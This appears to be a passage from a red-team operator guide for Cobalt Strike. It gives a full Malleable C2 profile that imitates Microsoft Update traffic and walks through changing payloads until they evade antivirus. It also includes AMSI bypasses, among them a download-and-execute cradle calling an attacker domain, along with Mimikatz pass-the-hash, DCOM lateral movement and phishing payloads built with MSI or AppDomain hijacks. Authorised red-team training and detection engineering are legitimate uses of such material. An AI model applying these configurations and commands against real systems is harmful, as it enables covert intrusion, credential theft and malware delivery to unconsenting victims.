
2.8.1 Stageless Payload Options
| Option | Values | Guidance |
|---|---|---|
| Exit Function | ExitProcess (xprocess), ExitThread (xthread) | Use xthread when injected into an existing process. Use xprocess when running in a process you launched. |
| Syscalls | Direct, Indirect | Direct calls the Nt* function directly. Indirect jumps to the appropriate instruction within the Nt* function. |
2.9 Interacting with Beacon
New sessions appear in the Event Log and in either the table or graph view. Double-click a row or right-click and select Interact to open a Beacon console tab.
| Column | Description |
|---|---|
external | External IP resolved by the Cobalt Strike web server (not sent by Beacon). |
internal | Internal IP of the host. |
listener | Name of the egress listener in use. |
user | Username the Beacon process runs as. Asterisk (*) appended for high-integrity. |
computer | Hostname of the target. |
process | Name of the hosting process. |
pid | Process ID. |
arch | x64 or x86. |
last | Time since last check-in (ms/s/m/h/d). |
sleep | Current sleep interval. |
note | Operator-defined notes. |
Blue monitor icon = medium integrity (standard user). Red monitor icon with asterisk = high integrity (local admin or SYSTEM). Black monitor icon = DNS ghost session (no metadata yet).
Methodology
- List available Beacon commands:
help - Get detailed help for a specific command:
help getuid - Task the Beacon (commands queue until next check-in):
getuid - Clear the pending job queue:
clear
2.9.1 Session Graph View
The graph view shows the relationship between egress and P2P Beacons. The firewall icon with a dashed line represents egress Beacons talking to the team server. Solid lines represent P2P links.
| Line Style | Protocol |
|---|---|
| Dashed green | HTTP/HTTPS |
| Dashed yellow | DNS |
| Solid yellow | SMB |
| Solid green | TCP |
Right-click the background to change layout (default: Tree > Left). Right-click a Beacon node for the same interaction menu as the table view.
2.10 Malleable C2 Profiles
Malleable C2 profiles control Beacon's network and in-memory indicators. For HTTP traffic, the profile defines URLs, request methods, headers, cookies, body format, and metadata encoding. Traffic can be dressed to impersonate legitimate services or known malware families.
2.10.1 Profile Directives
| Block | Purpose |
|---|---|
http-get | Defines indicators for HTTP GET requests (task retrieval). |
http-post | Defines indicators for HTTP POST requests (result submission). |
set uri | URI path. Requests to non-matching URIs return 404. |
client > parameter | Key-value pairs appended as URL parameters. |
client > metadata | Beacon identity data. Transformed (netbios, base64, mask/XOR), then placed in a URI parameter, header, or cookie. |
server > output | Team server response formatting. Data can be prepended/appended before the print terminator. |
2.10.2 Complete Profile Template
The profile below incorporates sleep masking, module stomping, RWX avoidance, and HTTP traffic mimicking Microsoft Update. Each block is annotated with its OPSEC purpose.
- Set global options (sleep, jitter, user-agent, staging):
set sleeptime "45000"; # 45-second base sleep set jitter "33"; # ±33% variance — breaks timing analysis set maxdns "255"; set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0"; set host_stage "false"; # Stage payloads via a separate listener, not this profile - Configure the
stageblock for in-memory evasion:stage { set userwx "false"; # Never allocate RWX — alloc RW, flip to RX before exec set sleep_mask "true"; # XOR-encrypt Beacon in memory during sleep intervals set stomppe "true"; # Zero the MZ/PE header after loading set obfuscate "true"; # Obfuscate Beacon's import table set cleanup "true"; # Free loader memory after Beacon executes set smartinject "true"; # Borrow PE header from a legitimate loaded DLL set allocator "NtMapViewOfSection"; # Map a section object instead of VirtualAlloc # Module stomping — overwrite a rarely-used DLL's memory region set module_x64 "xpsservices.dll"; set module_x86 "xpsservices.dll"; # Replace Beacon strings visible in heap/memory dumps stringReplace "ReflectiveLoader" "MicrosoftUpdate"; stringReplace "beacon.dll" "cryptbase.dll"; stringReplace "BeaconJitter" "TimerResolution"; transform-x64 { prepend "\x90\x90\x90\x90"; # NOP sled before Beacon } transform-x86 { prepend "\x90\x90\x90\x90"; } } - Configure the
process-injectblock for remote injection:process-inject { set startrwx "false"; # Allocate RW, flip to RX set userwx "false"; set bof_reuse_memory "true"; # Reuse BOF memory allocations min_alloc "16384"; # Minimum 16 KB allocation transform-x64 { prepend "\x90\x90"; } transform-x86 { prepend "\x90\x90"; } execute { CreateThread "ntdll!RtlUserThreadStart+0x1000"; # Offset avoids entry point heuristics NtQueueApcThread-s; # Early-bird APC CreateRemoteThread; RtlCreateUserThread; } } - Shape HTTP-GET traffic to resemble Windows Update cabinet file requests:
http-get { set uri "/v10/windowsupdate/redir/wuredir.cab /updates/v6/windowsupdate/selfupdate/AU/x86/win/0 /windowsupdate/v6/vistadefault.aspx"; set verb "GET"; client { header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"; header "Accept-Language" "en-US,en;q=0.5"; header "Accept-Encoding" "gzip, deflate, br"; header "Connection" "keep-alive"; header "Upgrade-Insecure-Requests" "1"; header "Cache-Control" "no-cache"; header "Pragma" "no-cache"; metadata { base64url; prepend "MUID="; # Microsoft Update client ID format header "Cookie"; } } server { header "Content-Type" "application/octet-stream"; header "Content-Disposition" "attachment; filename=wuredirca.cab"; header "X-Content-Type-Options" "nosniff"; header "Cache-Control" "no-cache, no-store"; header "Server" "Microsoft-IIS/10.0"; header "X-Powered-By" "ASP.NET"; output { base64url; print; } } } - Shape HTTP-POST traffic for result submission:
http-post { set uri "/v10/windowsupdate/selfupdate /windowsupdate/v6/clientdiagnostics"; set verb "POST"; client { header "Content-Type" "application/x-www-form-urlencoded"; header "Accept" "application/json, text/plain, */*"; header "Accept-Encoding" "gzip, deflate, br"; header "Connection" "keep-alive"; header "Cache-Control" "no-cache"; id { base64url; prepend "ClientId="; uri-append; } output { base64url; print; } } server { header "Content-Type" "application/json"; header "Server" "Microsoft-IIS/10.0"; header "X-Powered-By" "ASP.NET"; header "Cache-Control" "no-cache, no-store"; output { base64url; print; } } } - Configure the HTTPS certificate block (replace with a valid cert for production):
https-certificate { set CN "update.microsoft.com"; set O "Microsoft Corporation"; set C "US"; set ST "Washington"; set L "Redmond"; set validity "365"; set keysize "4096"; } - Configure DNS Beacon options:
dns-beacon { set dns_idle "8.8.4.4"; # Idle check-in resolves to Google DNS — blends with normal traffic set dns_sleep "0"; set maxdns "255"; set dns_ttl "5"; } - Validate and deploy the profile:
# Validate the profile before loading ./c2lint my_profile.c2 # Load at team server startup ./teamserver [IP] [password] my_profile.c2
OPSEC
- Always run
c2linton every profile change — a malformed profile crashes the team server on startup. - Verify Beacon traffic with Wireshark after deployment — confirm no default Cobalt Strike headers appear on the wire.
- For production engagements, replace the self-signed HTTPS certificate with a valid Let's Encrypt cert on a plausible Microsoft-adjacent domain.
- Set
host_stagetofalse— an exposed staging endpoint reveals the full Beacon payload to anyone who connects.
2.11 Beacon Object Files
Beacon Object Files (BOFs) execute compiled C code directly inside the Beacon process, avoiding the fork-and-run pattern used by powershell, powerpick, and execute-assembly. Since those commands spawn a sacrificial process and inject into it, they draw heavy scrutiny from AV and EDR. The trade-off: an unstable BOF can crash your Beacon.
2.11.1 Beacon Internal APIs
| API / Macro | Purpose |
|---|---|
BeaconPrintf | Send formatted output to the operator console. Type argument controls encoding: CALLBACK_OUTPUT, CALLBACK_OUTPUT_OEM, CALLBACK_ERROR, CALLBACK_OUTPUT_UTF8. |
BeaconDataParse | Initialize the argument parser for packed arguments. |
BeaconDataExtract | Extract a value from packed arguments (unpack in the same order as packed). |
DFR(LIB, Func) | Dynamic Function Resolution at global scope. Allows aliasing (e.g., #define MessageBox USER32$MessageBoxA). |
DFR_LOCAL(LIB, Func) | DFR scoped to a single function. Shorter but must be duplicated across functions. |
Methodology
- Build the BOF project in Release mode to produce the
.oobject file. - Execute a BOF inline on a Beacon:
inline-execute C:\Tools\bofs\x64\Release\demo.x64.o - Register a BOF as a custom alias via Aggressor script and load it through Script Manager (
Cobalt Strike > Script Manager).
2.11.2 Argument Packing
BOF arguments use a packed binary format created by bof_pack in Aggressor. The format string specifies data types for each argument.
| Format | Type | Unpack With |
|---|---|---|
z | Zero-terminated string | BeaconDataExtract |
Z | Zero-terminated wide string | BeaconDataExtract |
i | Integer (4 bytes) | BeaconDataInt |
s | Short (2 bytes) | BeaconDataShort |
b | Binary blob (length-prefixed) | BeaconDataExtract |
2.11.3 Usage
- Pack arguments and execute a BOF from an Aggressor script:
$args = bof_pack($1, "zz", $2, $3); beacon_inline_execute($1, $bof, "go", $args);
OPSEC
- BOF crashes kill the hosting Beacon process — test in Debug mode or on an expendable Beacon first.
- BOFs run in-process, avoiding the fork-and-run injection pattern that EDR products monitor heavily.
2.12 Extending with Aggressor Script
Aggressor Script is Cobalt Strike's scripting language (based on Sleep) for automating workflows, registering custom commands, and integrating external tools. Scripts are loaded via Cobalt Strike > Script Manager.
2.12.1 Registering Jump and Remote-Exec Methods
New lateral movement techniques can be added to the jump and remote-exec commands using beacon_remote_exploit_register and beacon_remote_exec_method_register. The callback function receives $1 (Beacon ID), $2 (target), and $3 (listener).
Methodology
- Register a custom lateral movement technique (example: DCOM via
jump):beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom); - Acknowledge the task with ATT&CK mapping inside the callback:
btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021"); - Generate a stageless payload and upload it to the target:
$payload = artifact_payload($3, "exe", "x64"); bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload); - Execute and auto-link P2P Beacons:
bpowerpick!($1, "Invoke-DCOM -ComputerName $+ $2 $+ -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner); beacon_link($1, $2, $3); - Load the script via Script Manager and test:
jump dcom web smb
2.13 Mimikatz Kit
The default Mimikatz build bundled with Cobalt Strike may be too old for newer Windows versions (11, Server 2022). The Mimikatz Kit allows you to bring updated builds into the framework. Custom DLLs include a reflective loader and optimized code to fit within Beacon's legacy 1 MB limit.
| Build Variant | Description |
|---|---|
| max | Complete Mimikatz codebase. Requires CS 4.6+ (1 MB limit removed). |
| full | Stripped-down version to reduce file size below 1 MB. |
| chrome | Contains code for the chromedump command (likely dpapi::chrome). |
Methodology
- Build the Mimikatz Kit:
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/mimikatz ./build.sh /mnt/c/Tools/cobaltstrike/mimikatz - Load
mimikatz.cnaviaCobalt Strike > Script Managerto replace the default Mimikatz build.
3. Defense Evasion
Defense evasion encompasses all techniques adversaries use to avoid detection throughout an operation. Antivirus products rely on two core strategies: static signatures that target known byte patterns in payloads, and behavioral heuristics that detect suspicious post-exploitation actions at runtime. Operators must address both.
3.1 Detection Layers
Cobalt Strike payloads consist of multiple components, each targeted by different detection mechanisms. Understanding which layer a detection targets is the first step toward bypassing it.
| Layer | Component | Detection Type | Mitigation Kit |
|---|---|---|---|
| On-disk | Artifact (.exe, .dll, .svc.exe) | Static file signatures | Artifact Kit |
| On-disk / AMSI | Script template (.ps1, .hta, .vba) | AMSI scan + static signatures | Resource Kit |
| In-memory | Reflective loader + Beacon DLL | Memory scanner (sms) | Malleable C2 stage block |
| Behavioral | Post-ex commands (fork & run, process spawns) | Heuristics, parent/child, command-line | Malleable C2 post-ex + process-inject |
Bypassing AV is a moving target. Specific bypasses shown here may not survive the next signature update. Focus on the methodology: identify, analyze, modify, rescan.
3.2 Artifact Kit (Compiled Payloads)
Cobalt Strike packages Beacon shellcode into stage-0 payload templates (EXE, DLL, service EXE). The Artifact Kit contains the source code for these templates, allowing operators to modify signatured code before it ships to a target.
| Directory | Contents |
|---|---|
src-main/ | main.c (EXE), svcmain.c (service EXE), dllmain.c (DLL) entry points |
src-common/ | bypass-*.c anti-sandbox techniques (mailslot, peek, pipe, readfile) |
src-common/ | patch.c shellcode injection logic; injector.c, start_thread.c helpers |
| Build Parameter | Description |
|---|---|
techniques | Space-separated bypass templates to compile (e.g. mailslot, pipe) |
allocator | Memory allocation API: HeapAlloc, VirtualAlloc, MapViewOfFile |
stage size | Reserved space for Beacon shellcode (run build.sh without args for minimums) |
rdll size | Set to 0 unless using a custom reflective loader |
resource file | true to embed file properties from src-main/resource.rc |
stack spoof | true to hide shellcode executing from unbacked memory |
syscalls | none, embedded, indirect, or indirect_randomized |
output directory | Path for compiled artifacts + artifact.cna |
Methodology
- Build default artifacts with the chosen bypass technique:
./build.sh mailslot VirtualAlloc 344564 0 false false none /mnt/c/Tools/cobaltstrike/custom-artifacts - Scan the artifact with ThreatCheck (disable real-time protection first for binary scans):
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\artifact64big.exe - Load the artifact into Ghidra and jump to the flagged offset:
Navigation > Go To > file(0x9ce) - Match the flagged byte sequence in Ghidra's disassembly, then locate the corresponding source in
patch.cor the bypass file. - Modify the source so it compiles to different machine code (e.g. replace a forward
forloop with a backwardwhileloop):int x = length; while ( x-- ) { * ( ( char * ) ptr + x ) = * ( ( char * ) buffer + x ) ^ key [ x % 8 ]; } - Rebuild and rescan. Repeat until ThreatCheck reports no threat found.
- Load the Aggressor script into Cobalt Strike:
Cobalt Strike > Script Manager > Load > artifact.cna - Generate new payloads and test on your attacking machine before deploying to targets.
OPSEC
- Never upload artifacts to VirusTotal — you hand your custom templates directly to AV vendors.
- Renaming variables alone does nothing in compiled C; the compiler strips names in release builds. You must change control flow or logic.
- Each artifact type (EXE, DLL, service EXE) may trigger different signatures — work through all of them.
3.3 Resource Kit (Script Payloads)
The Resource Kit contains templates for script-based payloads (PowerShell, HTA, VBA, Python). AMSI is the primary concern here because it scans scripts in memory as they execute.
| Template | Purpose |
|---|---|
template.x64.ps1 | 64-bit stageless PowerShell (used by jump winrm64) |
template.x86.ps1 | 32-bit stageless PowerShell |
compress.ps1 | GZip wrapper used by Scripted Web Delivery |
template.exe.hta | HTA payload |
template.x86.vba | VBA macro payload |
resources.cna | Aggressor script to load custom resources |
3.3.1 AMSI Architecture
AMSI is a vendor-agnostic interface. Any AV product can register as a provider, and any application can submit scan requests via amsi.dll. Native AMSI-aware components include PowerShell, Windows Script Host, JavaScript, VBScript, Office VBA, and UAC elevation.
AMSI itself does not determine maliciousness — it is a transport layer. The registered AV engine makes the detection decision.
Methodology
- Build default resource templates:
./build.sh /mnt/c/Tools/cobaltstrike/custom-resources - Scan the PowerShell template with ThreatCheck's AMSI engine (enable real-time protection):
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f .\template.x64.ps1 -e AMSI -t Script - Apply simple fixes first — rename variables, use string concatenation on flagged strings:
('Syst'+'em.dll') - For deeper detections, replace flagged API calls entirely (e.g. swap
Marshal.CopyforWriteProcessMemory):$var_wpm = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll WriteProcessMemory), (func_get_delegate_type @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr]) ([Bool]))) $ok = $var_wpm.Invoke([IntPtr]::New(-1), $var_buffer, $v_code, $v_code.Count, [IntPtr]::Zero) - Rescan after each change. Multiple signatures may target the same file — iterate until clean.
- Load
resources.cnainto the Cobalt Strike Script Manager.
3.3.2 Scripted Web Delivery (compress.ps1)
The Scripted Web Delivery workflow GZip-compresses the stageless template, base64-encodes it, and patches the result into compress.ps1. ThreatCheck may report this template as clean at the top level, but AMSI evaluates each execution layer. When PowerShell decodes and decompresses the payload, AMSI rescans the output and detects the inner content.
- Obfuscate
compress.ps1using Invoke-Obfuscation (preserve the%%DATA%%placeholder):ipmo C:\Tools\Invoke-Obfuscation\Invoke-Obfuscation.psd1 Invoke-Obfuscation SET SCRIPTBLOCK '<compress.ps1 content>' - Alternatively, host the uncompressed stageless payload directly via Site Management > Host File to avoid GZip detection entirely.
OPSEC
- ThreatCheck cannot replicate multi-layer AMSI evaluation — always test payloads end-to-end in a controlled environment.
- Defender engine and signature versions may differ between your dev machine and the target. A "clean" scan locally does not guarantee evasion remotely.
3.4 Beacon Memory Evasion
After the artifact injects Beacon shellcode, the reflective loader settles the DLL into memory. AV products with memory scanning capabilities (indicated by the sms tag in Defender alerts) can detect Beacon post-load. The Malleable C2 stage block controls how the loader places Beacon into memory.
| Directive | Default | Recommended | Effect |
|---|---|---|---|
set userwx | "true" | "false" | Allocate as RW, then set per-section permissions (RX for .text, R for .rdata, RW for .data) |
set cleanup | "false" | "true" | Free reflective loader memory after Beacon is loaded |
set copy_pe_header | "true" | "false" | Omit DOS/NT headers from memory — only .text and .data sections remain |
set module_x64 | none | e.g. "Hydrogen.dll" | Module stomping — map a legitimate DLL from disk, overwrite with Beacon so memory appears module-backed |
3.4.1 String Replacement
Hardcoded strings in Beacon's .rdata section are common targets for memory signatures. The transform-x64 / transform-x86 sub-blocks allow replacement via strrep.
- Export the raw Beacon DLL using the
BEACON_RDLL_GENERATEAggressor hook:set BEACON_RDLL_GENERATE { local('$path $handle'); $path = getFileProper("C:\\", "Payloads", "beacon_raw." . $3 . ".dll"); $handle = openf(">" . $path); writeb($handle, $2); closef($handle); return $null; } artifact_payload("http", "raw", "x64", "thread", "None"); - Dump strings from the exported DLL:
strings -d beacon_raw.x64.dll -n 6 > beacon-strings.txt - Add string replacements to the Malleable C2 profile:
stage { set userwx "false"; set cleanup "true"; set copy_pe_header "false"; set module_x64 "Hydrogen.dll"; transform-x64 { strrep "beacon.x64.dll" "bacon.x64.dll"; strrep "%02d/%02d/%02d" "%02d/%02d/%04d"; } }
OPSEC
- Replacement strings must be shorter than or equal in length to the original. They cannot be longer.
- Keep format strings valid (preserve
%s,%d, etc.) or Beacon output will break. - Do not replace HTTP response strings like
HTTP/1.1 200 OK— Beacon's internal web server uses them forpowershell-import,powerpick, andexecute-assemblyworkflows. Breaking HTTP compliance breaks post-ex. - The module chosen for stomping must be at least 512 KB and must not already be loaded by the host process.
- No tool exists to force a file through a memory scan. String replacement is trial and error — deploy, observe, adjust.
3.5 Beacon Command Classes
Beacon commands fall into distinct categories, each with different OPSEC profiles. Understanding which class a command belongs to determines what indicators it produces.
| Class | Mechanism | Examples | Indicators |
|---|---|---|---|
| House-keeping | Client-side or config change | help, sleep, clear, jobs, note, spawnto | None (no task sent) or minimal |
| Inline (native) | Built-in Win32 API calls | pwd, cd, ls, upload, download, getuid, make_token, steal_token | API calls from Beacon's own thread |
| Inline (BOF) | Compiled C object file runs in Beacon's thread | clipboard, getsystem, reg, kerberos_ticket_use, jump psexec | Memory allocation for BOF; no new thread or process |
| Fork & Run (spawn) | New sacrificial process + shellcode injection | execute-assembly, powerpick, keylogger, mimikatz, portscan | Process creation, thread creation, named pipe, memory allocation |
| Fork & Run (explicit) | Inject into existing process | psinject, keylogger (explicit), printscreen | Thread creation, named pipe, memory allocation (no new process) |
| Process execution | Run a program on disk | shell, run, execute, powershell, runas | New child process with visible command line |
| Service-based | Create/start a Windows service | elevate svc-exe, jump psexec, remote-exec psexec | Service creation event, service binary on disk |
Fork & run commands carry the heaviest OPSEC burden: shellcode injection, new thread, named pipe, and (for spawn variant) a new process.
3.6 Process Injection Configuration
The Malleable C2 process-inject block controls how BOFs are loaded and how fork & run shellcode is injected. Separate directives govern BOF memory and remote injection.
3.6.1 BOF Memory Settings
| Directive | Options | Recommended |
|---|---|---|
set bof_allocator | VirtualAlloc, MapViewOfFile, HeapAlloc | "VirtualAlloc" |
set bof_reuse_memory | "true" / "false" | "true" (zero and reuse allocation) |
set min_alloc | Size in bytes | "8192" (large enough for typical BOFs) |
set startrwx | "true" / "false" | "false" (RW at rest) |
set userwx | "true" / "false" | "false" (RX code, RW data at execution) |
3.6.2 Remote Injection Settings
| Directive | Options | Notes |
|---|---|---|
set allocator | VirtualAllocEx, NtMapViewOfSection | NtMapViewOfSection only for same-arch injection |
execute block | Thread creation techniques (evaluated top-to-bottom) | Put preferred technique first, backups below |
| Execute Technique | Cross-arch | Spoof Support | Notes |
|---|---|---|---|
CreateThread | No (current process only) | Yes | "module!function+0x##" syntax |
CreateRemoteThread | x64 → x86 | No | Broad compatibility |
NtQueueApcThread | No | No | Same-arch only |
NtQueueApcThread-s | No | No | Early bird injection pattern |
SetThreadContext | x64 → x86 | No | Broad compatibility |
ObfSetThreadContext | No | Yes | Same-arch, suspended thread |
RtlCreateUserThread | x86 → x64 | No | Requires RWX memory |
3.7 Post-Exploitation Configuration
The post-ex block in Malleable C2 controls fork & run behavior and modifies the post-ex DLLs themselves (execute-assembly, powerpick, mimikatz, etc.).
| Directive | Purpose | Example |
|---|---|---|
set spawnto_x64 | Default process for x64 spawn variant | "%windir%\\sysnative\\msiexec.exe" |
set spawnto_x86 | Default process for x86 spawn variant | "%windir%\\syswow64\\msiexec.exe" |
set cleanup | Free post-ex loader after execution | "true" |
set pipename | Named pipe pattern (# = random hex) | "dotnet-diagnostic-#####" |
set thread_hint | Spoofed start address for post-ex threads | "ntdll.dll!RtlUserThreadStart+0x2c" |
set amsi_disable | Patch AMSI in spawned process before post-ex injection | "true" |
The amsi_disable directive applies to powerpick, execute-assembly, and psinject only. It does not apply to the powershell command.
3.7.1 Post-Ex DLL String Replacement
Use transform-x64 / transform-x86 sub-blocks within post-ex to modify strings in post-ex DLLs. strrep applies globally; strrepex targets a specific DLL.
Valid Post-Ex Names for strrepex |
|---|
BrowserPivot, ExecuteAssembly, Hashdump, Keylogger, Mimikatz, NetView, PortScanner, PowerPick, Screenshot, SSHAgent |
3.7.2 Service Binary Spawnto
The service binary payload (used by jump psexec) defaults to rundll32 as its spawnto. The post-ex.spawnto directive cannot be used here because environment variables like %windir% are invalid in a SYSTEM context. Use ak-settings to set an absolute path at runtime.
- Override the service binary spawnto before lateral movement:
ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe - Optionally change the service name (default is 7 random characters):
ak-settings service MyServiceName
3.8 Blending Post-Exploitation
C2 profile settings alone do not guarantee stealth. Every command must blend into the surrounding process environment. A Beacon running inside msedge.exe should not spawn cmd.exe or msiexec.exe as direct children.
Methodology
- Use
ppidto spoof the parent PID forshellandruncommands under a plausible parent (e.g.explorer.exe):ppid 6696 shell timeout 60 - For fork & run commands, combine
ppidandspawntoto produce a believable process tree:ppid spawnto x64 "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --profile-directory=Default powerpick Start-Sleep -s 60 - Reset
ppidto default (Beacon's own process) when done:ppid - Reset
spawntoto default:spawnto
OPSEC
- Word spawning PowerShell or cmd is a well-known phishing indicator. Use COM objects (e.g.
ShellWindows,ShellBrowserWindow) to launch processes underexplorer.exeinstead. - Match the spawnto process to the action: database queries from a SQL-related process, browsing from a browser process, etc.
- Every command you run must be evaluated against the current Beacon's host process — there is no universal safe setting.
3.9 Command-Line Detections
Windows Defender's kernel driver registers a PsSetCreateProcessNotifyRoutineEx callback that inspects the ImageFileName and CommandLine fields of every new process. If the command line matches a known abuse pattern, the driver sets CreationStatus to STATUS_ACCESS_DENIED and the process never starts.
| Beacon Command | Command Line Produced |
|---|---|
shell <cmd> | C:\Windows\System32\cmd.exe /C <cmd> |
run <cmd> | <cmd> |
powershell <cmd> | powershell -nop -exec bypass -EncodedCommand <b64> |
| Fork & run (spawn) | <current spawnto> |
pth | %COMSPEC% /c echo <token> > \\.\pipe\<name> (via CreateProcessWithLogonW) |
3.9.1 Pass-the-Hash Workaround
The built-in pth command wraps Mimikatz's sekurlsa::pth, which uses CreateProcessWithLogonW with a named pipe impersonation pattern. Defender blocks the echo <token> > \\.\pipe\ command line. The workaround is to spawn an arbitrary process and steal its token manually.
- Use Mimikatz directly with a benign process, then steal the token:
mimikatz sekurlsa::pth /user:"[user]" /domain:"DEV" /ntlm:[ntlm-hash] /run:notepad.exe steal_token 17896 ls \\web.[domain]\c$
3.9.2 Elevation Kit Detections
UAC bypass techniques from the Elevate Kit (e.g. uac-schtasks) run tools like schtasks.exe with well-known arguments (/Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I). Defender's kernel callback blocks these command lines. The bypass is to achieve the same outcome through a different mechanism — an API call, a COM object, or an alternative scheduled task trigger that avoids the signatured arguments.
OPSEC
- Command-line detections surface as generic
ERROR_ACCESS_DENIED(error code 5) — not an explicit Defender warning. Always check Defender alerts viaGet-MpThreatDetectionto confirm the source. - The PowerShell command line can be modified via the
POWERSHELL_COMMANDAggressor hook. - Disabling kernel-level callbacks requires kernel code execution (vulnerable driver exploitation) — well outside normal red team scope. Find alternative procedures instead.
3.10 Manual AMSI Bypasses
The amsi_disable directive only applies to fork & run post-ex commands. Initial access and lateral movement payloads that execute in PowerShell are not covered. When ThreatCheck reports a payload as clean but AMSI still catches it at runtime, the detection is hidden under one or more layers of code evaluation (base64 decode, GZip decompress, etc.).
Methodology
- Integrate an external AMSI bypass (e.g. hardware breakpoint method) into a standalone script and host it on the team server.
- Chain the bypass script before the payload download:
iex (new-object net.webclient).downloadstring("http://nickelviper.com/bypass"); iex (new-object net.webclient).downloadstring("http://nickelviper.com/a")
OPSEC
- AMSI bypasses themselves are signatured. The bypass script must also pass AMSI scanning on the target.
- Hardware breakpoint bypasses set a vectored exception handler and use debug registers — these are detectable by EDR products monitoring
AddVectoredExceptionHandlerand thread context manipulation. - Memory patching bypasses (e.g. patching
AmsiScanBuffer) leave forensic artifacts. Prefer techniques that produce fewer residual indicators.
4. Initial Access
Initial Access (TA0001) covers techniques for gaining a foothold inside a target network. While options include exploiting public-facing services and supply-chain compromise, the most common vector is social engineering via phishing. This chapter covers the construction of phishing payloads using Mariusz Banach's taxonomy: DELIVERY(CONTAINER(TRIGGER + PAYLOAD + DECOY)).
4.1 Phishing Taxonomy
Every phishing package can be decomposed into five components. Understanding this structure lets you mix and match elements to build novel infection chains that evade static detection.
| Component | Purpose | Examples |
|---|---|---|
| Delivery | Gets the package to the victim | HTML smuggling, SVG smuggling, site clone, email attachment |
| Container | Bundles trigger, payload, and decoy into one file | ISO, IMG, ZIP, WIM |
| Trigger | File the victim interacts with (ideally a double-click) | LNK, BAT, MSC |
| Payload | Malicious code that executes on the victim machine | EXE, DLL, JS dropper, XLAM macro |
| Decoy | Benign content shown to the victim to maintain pretext | PDF, XLSX, image |
Modern infection chains stack these layers to defeat automated analysis. A real-world example: ISO => LNK => JS => .NET DLL => EXE. Each layer adds complexity that slows both automated scanners and manual analysts.
4.2 Mark of the Web
Mark of the Web (MotW) is a zone identifier stored as an NTFS alternate data stream on files downloaded from the Internet. Files tagged with MotW trigger additional security warnings from SmartScreen, Office Protected View, and macro-block policies.
| ZoneId | Zone |
|---|---|
0 | Local computer |
1 | Local intranet |
2 | Trusted sites |
3 | Internet |
4 | Restricted sites |
Methodology
- Check MotW on a downloaded file:
Get-Content -Stream Zone.Identifier .\test.pdf
Files emailed internally via a compromised Exchange mailbox are not tagged with a Zone Identifier. If macros are blocked for Internet-zone files, stripping MotW via an appropriate container is required before the payload will execute.
4.3 DLL Side-Loading
DLL hijacking forces a legitimate application to load a malicious DLL by abusing the Windows DLL search order. DLL side-loading extends this by sourcing vulnerable application versions from the Windows Component Store (C:\Windows\WinSxS), where older unpatched binaries persist after Windows updates.
| Search Order | Location |
|---|---|
| 1 | Application directory |
| 2 | C:\Windows\System32 |
| 3 | C:\Windows\System |
| 4 | C:\Windows |
| 5 | Current working directory |
| 6 | Directories in PATH |
Methodology
- Find vulnerable executables in WinSxS (e.g.
ngentask.exe):ls -Path C:\Windows\WinSxS -Recurse -Filter ngentask.exe | Select -Expand FullName - Use Process Monitor to identify missing DLLs. Filter by path ending in
.dlland resultNAME NOT FOUND. - Drop a malicious DLL with the expected filename into the current working directory and execute the vulnerable binary.
OPSEC
- Dropping DLLs into user-writable directories is noisy — EDR products monitor
LoadLibrarycalls from non-standard paths. - Use a legitimate-looking directory name under
C:\ProgramDatarather than temp or home directories.
4.4 AppDomainManager Hijack
The AppDomainManager hijack forces any .NET Framework application to load a custom DLL without modifying the DLL search order. You write a class inheriting from AppDomainManager, compile it to a .NET DLL, and then direct the target app to load it via environment variables or a .config file.
Methodology
- Create a class inheriting from
AppDomainManagerwith payload code in the constructor or overridden method:using System; using System.Windows.Forms; namespace AppDomainHijack; public sealed class DomainManager : AppDomainManager { public override void InitializeNewDomain(AppDomainSetup appDomainInfo) { MessageBox.Show("Hello World", "Success"); } } - Copy a .NET app from WinSxS and place your DLL alongside it:
cp C:\Windows\WinSxS\amd64_netfx4-ngentask_exe_b03f5f7f11d50a3a_4.0.15805.0_none_d4039dd5692796db\ngentask.exe . cp C:\Tools\AppDomainHijack\bin\Debug\AppDomainHijack.dll domainManager.dll - Option A — trigger via environment variables:
$env:APPDOMAIN_MANAGER_ASM = 'AppDomainHijack, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null' $env:APPDOMAIN_MANAGER_TYPE = 'AppDomainHijack.DomainManager' - Option B — trigger via
ngentask.exe.config:<configuration> <runtime> <appDomainManagerAssembly value="AppDomainHijack, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" /> <appDomainManagerType value="AppDomainHijack.DomainManager" /> </runtime> </configuration> - Execute the .NET application to load the hijacked DLL.
4.5 Windows Installer (MSI)
Windows Installer (MSI) packages can serve as both payload and container. They store files to install alongside the installation steps, and can execute arbitrary binaries via custom actions during the install process.
Methodology
- Create a new Setup Project in Visual Studio (requires the Installer Projects extension).
- Add the payload executable to the Application Folder via Add > File. Set its
Hiddenproperty and rename it as needed. - Add a Custom Action under the Install step pointing to the payload file. Set
Run64BittoTruefor 64-bit payloads. - Configure project properties (company name, product name, target platform) to dress up the installer.
- Build the solution. Deliver the
.msifile to the victim (the companion.exewrapper is not needed).
OPSEC
- MSI installations create entries in Programs and Features — plan for cleanup.
- Custom action command-line arguments should look plausible (e.g.
/install /quiet).
4.6 Excel Add-In (XLAM)
An .xlam file is a macro-enabled Excel Add-In. Excel automatically loads any workbooks, templates, or add-ins placed in the XLSTART directory, which is a trusted location writable by standard users. This bypasses Protected View and MotW macro restrictions.
| Trusted Location | User-Writable |
|---|---|
